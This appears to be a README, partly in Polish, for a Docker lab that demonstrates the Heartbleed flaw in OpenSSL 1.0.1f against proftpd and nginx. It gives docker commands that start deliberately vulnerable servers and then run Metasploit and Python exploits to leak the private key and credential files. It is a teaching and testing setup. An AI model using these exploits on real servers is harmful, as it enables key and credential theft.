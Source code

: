 Design
=====

Docker images:

1. proftpd-bleed - stawia serwer proftpd (przykladowy user: testuser/bordodeszato2009)
 korzystajacy z openssl 1.0.1f
2. ftp-bystander - co chwile loguje sie na proftpd-bleed i uploaduje plik credentials.php z danymi do bazy danych i kluczem do API platnosci24
3. nginx-bleed - stawia serwer nginx korzystający z openssl 1.0.1f, ktory umożliwia ściagniecie pliku confidential.txt zalogowanemu userowi (przykladowy user: testuser/bordodes)
4. http-bystander - co chwile loguje sie na nginx-bleed i sciaga confidential.txt
5. metasploit - uzywajac metasploita wyciaga privkey serwera
6. exploit - uzywajac naszego exploita w Pythonie stara sie znalezc w dumpie plik PHP lub string "CONFIDENTIAL"

Repo + docker hub
====

https://github.com/kacperzuk/heartbleed

heartbleed-testbed- images on https://hub.docker.com/u/kacperzuk/

Usage
======

I recommend using docker hub, but if you want you can build images yourself by running build-all.sh


Run vulnerable FTP server
```
docker run -p 2121:21 -p 30000-30009:30000-30009 -it --rm --name=proftpd-bleed kacperzuk/heartbleed-testbed-proftpd-bleed
```

Test connection:
```
$ openssl s_client -connect localhost:2121 -starttls ftp
$ curl -k --ftp-ssl ftp://localhost:2121/ --user testuser:bordodeszato2009
$ curl -vk --ftp-ssl ftp://localhost:2121/ --user testuser:bordodeszato2009
```

Run a fake-user that uploads credentials.php to server few times a second:
```
docker run --link proftpd-bleed:ftpd -it --rm --name=ftp-bystander kacperzuk/heartbleed-testbed-ftp-bystander
```

Run exploit from metasploit (it extracts private key and dumps it into /tmp/msf4/loot):
```
docker run --link proftpd-bleed:ftpd --rm -it -v /tmp/msf4:/root/.msf4 kacperzuk/heartbleed-testbed-metasploit /usr/local/bin/init.sh ftp-hb.rc
```

Run authtls-heartbleed.py exploit (it tries to extract PHP file, but won't succeed ever because proftpd is forking):
```
docker run --link proftpd-bleed:ftpd --rm -it kacperzuk/heartbleed-testbed-exploit python3 authtls-heartbleed.py ftpd 21
```

You can stop all containers.

Run vulnerable HTTPS server
```
docker run -p 4443:443 -it --rm --name=nginx-bleed kacperzuk/heartbleed-testbed-nginx-bleed
```

Test connection:
```
$ openssl s_client -connect localhost:4443
$ curl -k https://localhost:4443/confidential.txt --user testuser:bordodes
$ curl -vk https://localhost:4443/confidential.txt --user testuser:bordodes
```

Run a fake-user that uploads credentials.php to server few times a second:
```
docker run --link nginx-bleed:httpd -it --rm --name=http-bystander kacperzuk/heartbleed-testbed-http-bystander
```

Run exploit from metasploit (it extracts private key):
```
docker run --link nginx-bleed:httpd --rm -it -v /tmp/msf4:/root/.msf4 kacperzuk/heartbleed-testbed-metasploit /usr/local/bin/init.sh http-hb.rc
```

Run https-heartbleed.py exploit (nginx isn't forking, so it should find the confidential file):
```
docker run --link nginx-bleed:httpd --rm -it kacperzuk/heartbleed-testbed-exploit python3 https-heartbleed.py httpd 443
```
